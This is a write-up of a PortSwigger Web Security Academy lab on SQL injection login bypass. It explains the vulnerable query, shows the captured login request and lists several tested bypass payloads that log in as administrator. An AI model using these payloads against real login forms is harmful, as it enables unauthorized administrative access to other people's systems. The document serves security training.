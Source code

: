 # Lab Description
## Lab: SQL injection vulnerability allowing login bypass

This lab contains an SQL injection vulnerability in the login function.

To solve the lab, perform an SQL injection attack that **logs in to the application as the administrator user**.

# Lab Solution

Authentication bypass is when an unauthenticated user gains access equivalent to an authenticated user without ever going through an authentication procedure. This is usually the result of the usage of an unexpected access procedure that does not go through the proper validation process ([CAPEC-115: Authentication Bypass](https://capec.mitre.org/data/definitions/115.html)[^1]).

One of the ways how to test authentication bypass is through the [SQL injection in HTML Form Authentication](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/04-Testing_for_Bypassing_Authentication_Schema.html)[^2], and that is the aim of this exercise.

The second lab provides us with a similar web application as last time.

![starting](Assets/1.png)

However, this time we are presented with the `My account` section instead of the search filter.

After access the link, we are redirected to endpoint `HTTPS://0ab6008d04381b6bc03f3685007a004e.web-security-academy.net/login`, presenting an HTML Login Form with two input fields `Username` and `Password`.


![login-page](Assets/2.png)

Without access to the code, we can assume that the SQL query, which will be sent to the database looks like the following:

```
SELECT * FROM users WHERE username = 'username' AND password = 'password'
```

The lab description gave us a username: `administrator`. Therefore, we must find the query modification to satisfy the condition, return `TRUE`, and grant us access.

At first, we will send the POST request with an arbitrary password of `0000`.

The SQL query will look like this:

```
SELECT * FROM users WHERE username = 'administrator' AND password = '0000'
```

As we can see in the HTTP response, we received an **Invalid username or password** response due to the incorrect password provided to the application.

![invalid-password](Assets/4.png)

Because we do not know the password, we need to modify the SQL query to either validate the condition as TRUE and/or ignore the part where it compares the value of the password with the value stored in the database.
We will use the concept from the first exercise and apply the `--` comment here. This way, as shown in the SQL query below, we will effectively eliminate the password validation and log in as administrator.

```
SELECT * FROM users WHERE username = 'administrator'-- AND password = '0000'
```

![example-from-lab1](Assets/5.png)

The payload worked, and we successfully bypassed the authentication and became administrator.

![solved-exercise](Assets/6.png)

#### Is there any other way?

To see if other login techniques works, we used the [list of queries for SQL injection authentication bypass](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)[^3] and tested it against the /login webpage.

Because we know the username, we changed the original list's username `admin` to `administrator`.

Again, as the first step, we will send the HTTP POST request with an arbitrary password of `0000`, capture it with proxy and send the captured HTTP POST request to [Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder/using)[^4].


**HTTP request**
```
POST /login HTTP/1.1
Host: 0ab6008d04381b6bc03f3685007a004e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close

csrf=AGXPTGACvFjhx8ZHJH8DRvwxUfTU3Ntp&username=administrator&password=0000
```

The following payloads were tested and logged us in as administrator indicating multiple ways how to bypass the authentication process.

```
administrator' --
administrator' or '1'='1
administrator' or '1'='1'--
administrator'or 1=1 or ''='

```

#### Do we need a username?

In this case, the answer is NO.

If we provide application a condition that always evaluates to TRUE, the entire WHERE statement will be TRUE, regardless of the username or password.

[The WHERE statement](https://brightsec.com/blog/sql-injection-attack/)[^5] will then return the first ID from the users table, which is commonly the administrator. This means the unauthenticated user can access the application without authentication and administrator privileges.

Therefore, SQL queries using such inputs give us a passing flag in this exercise. Examples:

```
admin' or '1'='1'--
admin'or 1=1 or ''='
admin' or 1=1--
```

Thank you for reading and see you in the next lab!


[^1]: https://capec.mitre.org/data/definitions/115.html
[^2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/04-Testing_for_Bypassing_Authentication_Schema.html
[^3]: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
[^4]: https://portswigger.net/burp/documentation/desktop/tools/intruder/using
[^5]: https://brightsec.com/blog/sql-injection-attack/
